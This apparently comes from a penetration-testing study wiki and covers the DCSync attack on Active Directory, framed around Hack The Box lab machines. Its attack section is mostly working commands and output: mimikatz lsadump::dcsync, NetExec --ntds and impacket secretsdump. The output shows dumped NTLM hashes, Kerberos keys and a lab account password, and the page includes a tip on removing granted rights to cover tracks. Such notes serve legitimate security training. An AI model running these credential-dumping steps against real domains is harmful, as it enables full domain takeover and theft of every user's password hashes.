 ```yaml
---
description: >-
  An one-liner late-phase attack aiming on full domain compromise. Can be
  perfomed after owning an domain account which has DCSync rights.
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# DCSync

## Concept

<div align="left">

<figure><img src="../../.gitbook/assets/dcsync_attack.png" alt=""><figcaption></figcaption></figure>

</div>

DCSync is a technique for stealing the Active Directory password database (`ntds.dit`) by using the built-in **Directory Replication Service Remote** protocol, which is used by Domain Controllers (DCs) to replicate domain data. This allows an attacker to **mimic a DC and retrieve users' NTLM password hashes**. To perform this attack, we must have control over an account that has the rights to perform domain replication, aka **DCSync rights** (Figure 1):

1. `Replicating Directory Changes`
2. `Replicating Directory Changes All`
3. `Replication-Get-Changes-In-Filtered-Set` (sometimes)

> _Domain/Enterprise Admins and default Domain Administrators have these rights by default._

<figure><img src="../../.gitbook/assets/dc_sync_rights.png" alt=""><figcaption><p>Firure 1: DCSync rights (image taken from the article linked below).</p></figcaption></figure>

{% hint style="info" %}
For more information about the DCSync attack read [this](https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection) article.
{% endhint %}

## Tools

{% hint style="info" %}
If we have `WriteDacl`rights over an account, we can assign DCSync rights to it, execute the DCSync attack, and then remove them to attempt to cover our tracks. An example of this can be seen in the [privilege escalation part of the Forest box](../../boxes/easy/forest.md). In the examples below, we assume that the user `hacker`has DCSync rights.
{% endhint %}

### Windows

The DCSync attack can be performed with [`mimikatz`](https://github.com/ParrotSec/mimikatz), but we must target a specific user and it must be ran in the context of the user who has DCSync privileges. The latter can be achieved with [Runas](https://github.com/antonioCoco/RunasCs):

```
# start a powershell session in the context of hacker
>runas /netonly /user:HTB\hacker powershell
Enter the password for HTB\hacker:
Attempting to start powershell as user "HTB\hacker" ...
```

Now we can perform the attack from the spawned PowerShell:

```
> .\mimikatz.exe
 
mimikatz # privilege::debug
Privilege '20' OK
 
mimikatz # lsadump::dcsync /domain:HTB.LOCAL /user:HTB\administrator
[DC] 'HTB.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.HTB.LOCAL' will be the DC server
[DC] 'HTB\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
 
Object RDN           : Administrator
 
** SAM ACCOUNT **
 
SAM Username         : administrator
User Principal Name  : administrator@htb.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500
 
Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf
 
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d
 
<SNIP>
```

### Linux

We can use [NetExec](https://github.com/Pennyw0rth/NetExec) to dump the whole `ntds.dit` database or the hash of a specified user:

{% hint style="info" %}
NXC uses [secretsdump's methods](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-ntds.dit) to dump `ntds.dit`.
{% endhint %}

```
# dumping the administrator hash
$ nxc smb 10.10.10.161 -u hacker -p h@ck3r! --ntds --user administrator
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\hacker:h@ck3r!
SMB         10.10.10.161    445    FOREST           [-] Account not found in the BloodHound database.
SMB         10.10.10.161    445    FOREST           [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         10.10.10.161    445    FOREST           [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.10.161    445    FOREST           htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
SMB         10.10.10.161    445    FOREST           [+] Dumped 1 NTDS hashes to /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds of which 1 were added to the database
SMB         10.10.10.161    445    FOREST           [*] To extract only enabled accounts from the output file, run the following command:
SMB         10.10.10.161    445    FOREST           [*] cat /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.10.10.161    445    FOREST           [*] grep -iv disabled /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds | cut -d ':' -f1
```

Impacket's [`secretsdump.py`](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) can be also used directly.&#x20;

```
$ secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32<REDACTED>a6:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
[*] Cleaning up...
```

## Practice

* [Forest (Easy)](../../boxes/easy/forest.md)
* [Sauna (Easy)](../../boxes/easy/sauna.md)
